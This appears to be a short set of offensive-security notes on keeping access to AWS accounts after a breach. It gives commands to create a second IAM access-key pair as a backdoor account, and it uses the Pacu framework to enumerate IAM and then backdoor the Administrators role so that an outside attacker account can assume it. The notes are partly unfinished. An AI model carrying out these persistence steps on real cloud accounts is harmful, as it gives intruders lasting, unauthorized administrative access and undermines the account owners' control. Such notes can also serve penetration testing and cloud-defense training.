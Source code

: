 # Persistence
# Index
* [Backdoor account](#Authentication)
* [Outside entity Trust relationships](#Trust-relationships)


## Backdoor account
- Each account can have two access keys
#### List access keys
```
aws iam list-access-keys --user-name <username>
```

#### Create second pair of access keys
```
aws iam create-access-key --user-name <username>
```

## Trust relationships
- Can create a trust relationship with an entity OUTSIDE of an AWS account. (cross account persistence)

#### Run pacu
```
sudo python3 cli.py
import_keys <AWS PROFILE NAME>
```

#### Run the enumeration modules
```
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
whoami
```

#### Find ARN of external AWS account
```
sudo aws sts get-caller-identity
```

#### Backdoor the role
-  Pacu has a module that backdoors IAM roles called iam__backdoor_assume_role
```
run iam__backdoor_assume_role
run iam__backdoor_assume_role --role-names Administrators --user-arns <full ARN of your external account>
```

#### Use the external AWS account backdoor
- Not sure how to get ARN of the policy
```
sudo aws sts assume-role --role-arn <Full ARN of Backdoored Role> --role-session-name persist --profile <personal AWS account profile>
```
